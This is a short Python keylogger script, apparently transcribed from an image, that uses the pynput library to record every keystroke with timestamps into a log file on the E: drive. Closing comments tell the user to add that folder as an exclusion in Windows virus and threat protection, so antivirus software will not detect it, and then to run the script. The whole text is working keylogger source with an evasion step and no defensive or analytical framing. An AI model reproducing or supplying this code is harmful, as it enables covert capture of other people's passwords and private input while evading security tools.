 #install pynput py using pip
#pip3 install pynput

import pynput

from pynput.keyboard import Key, Listener

import logging

log_dir = "E:\keylogger"

logging.basicConfig(filename = (log_dir + r"/keyLog.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key): logging.info(str(key))

with Listener(on_press=on_press) as listener:listener.join()

#make this folder exclusive to the antivirus software 
#goto settings > virus&threat protection > add exclusive
#then execute the python script using any python platform
